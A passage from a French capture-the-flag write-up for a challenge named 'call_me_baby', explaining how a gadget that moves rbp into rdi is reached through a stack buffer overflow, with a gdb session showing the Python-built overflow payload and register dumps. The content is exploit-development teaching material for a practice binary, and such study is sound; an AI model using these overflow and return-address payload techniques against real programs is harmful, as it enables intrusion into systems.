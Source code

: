 Ces instructions font partis de la fonction gadgets() qu'on a apperçue plus tôt lors du reverse. Elle va nous permettre de modifier rdi.  
  
On voit que la fonction push le rbp sur la stack, puis pop la stack dans rdi. Autrement dit la valeur contenu dans le rbp, va se retrouver dans le rdi. Il faut donc modifer le rbp avec la valeur que l'on veut mettre dans le rdi, puis rediriger le programme vers la fonction gadgets. Essayons un payload :

```gdb
(gdb) i func gadgets
all functions matching regular expression "gadgets":

non-debugging symbols:
0x0000000000401166  gadgets
(gdb) break *gadgets
breakpoint 4 at 0x401166
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*64+b"\x62\x61\x62\x79"+b"\x00"*4+b"\x66\x11\x40\x00"+b"\x00"*4)')
the program being debugged has been started already.
start it from the beginning? (y or n) y
starting program: /home/coucou/documents/ctf_ssi_2024/call_me_baby/call_me_baby <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*64+b"\x62\x61\x62\x79"+b"\x00"*4+b"\x66\x11\x40\x00"+b"\x00"*4)')
[thread debugging using libthread_db enabled]
using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

breakpoint 1, 0x00000000004011dd in vuln ()
(gdb) c
continuing.
write your love letter: 

breakpoint 2, 0x000000000040120a in vuln ()
(gdb) c
continuing.

breakpoint 4, 0x0000000000401166 in gadgets ()
(gdb) disas
dump of assembler code for function gadgets:
=> 0x0000000000401166 <+0>:	push   %rbp
   0x0000000000401167 <+1>:	mov    %rsp,%rbp
   0x000000000040116a <+4>:	pop    %rdi
   0x000000000040116b <+5>:	ret
   0x000000000040116c <+6>:	nop
   0x000000000040116d <+7>:	pop    %rbp
   0x000000000040116e <+8>:	ret
end of assembler dump.
(gdb) break *gadgets+5
breakpoint 5 at 0x40116b
(gdb) i r
rax            0x51                81
rbx            0x7fffffffdb38      140737488345912
rcx            0x7ffff7ec0a5d      140737352829533
rdx            0x64                100
rsi            0x7fffffffd9c0      140737488345536
rdi            0x0                 0
rbp            0x79626162          0x79626162
rsp            0x7fffffffda10      0x7fffffffda10
r8             0x0                 0
r9             0x7ffff7fcfb10      140737353939728
r10            0x7ffff7dd8b08      140737351879432
r11            0x246               582
r12            0x0                 0
r13            0x7fffffffdb48      140737488345928
r14            0x403df0            4210160
r15            0x7ffff7ffd000      140737354125312
```